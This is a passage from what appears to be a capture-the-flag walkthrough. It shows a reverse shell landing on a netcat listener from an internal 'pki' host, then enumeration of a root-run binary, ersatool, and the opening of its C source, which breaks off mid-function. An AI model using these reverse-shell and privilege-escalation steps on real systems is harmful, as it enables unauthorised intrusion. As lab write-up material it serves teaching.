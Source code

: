 And we get a reverse shell on the second SSH:
```console
www-data@web:~/exp$ nc -lvp 9001
-bash: nc: command not found
www-data@web:~/exp$ ./nc -lvp 9001
listening on [any] 9001 ...
192.168.254.3: inverse host lookup failed: ���fy
connect to [192.168.254.2] from (UNKNOWN) [192.168.254.3] 39230
www-data@pki:~/html$
```

As we saw before, on the web page the file ```batch mode: /usr/bin/ersatool create|print|revoke CN ```, Let's observe this file (This binary running as ```root```):
```console
www-data@pki:~/html$ file /usr/bin/ersatool
file /usr/bin/ersatool
/usr/bin/ersatool: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=961368a18afcdeccddd1f423353ff104bc09e6ae, not stripped
```

By enumerating we found the source code of this binary:
```console
www-data@pki:/usr/bin$ find / -name ersatool.* 2>/dev/null
/usr/src/ersatool.c 
```

Let's observe this code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <libgen.h>
#include <sys/wait.h>
#include <ctype.h>

//easyrsa configuration
char ERSA_DIR[]="/opt/easyrsa";
char TA_KEY[]="/opt/easyrsa/clients/ta.key";
char OUTPUT_DIR[]="/opt/easyrsa/clients";
char BASE_CONFIG[]="/opt/easyrsa/clients/base.conf";
char EXT[]=".ovpn";

//void printCN(char*,int);
void filePrint(char*);
void revokeCN(char*,int);
void createCN(char*,int);
void integrateCN(char*);
void getHelp(char*,int);
void cleanStr(char*);

//deprecated function - prints the CN ovpn config file
//conf file can be printed with inegrateCN(); <- create
void printCN(char *cn, int i){
	char fn[100];
	char buffer[100];

	if(i==1){
		printf("print->CN=");
		fflush(stdout);
		memset(buffer,0,sizeof(buffer));
		read(0,buffer,sizeof(buffer));
```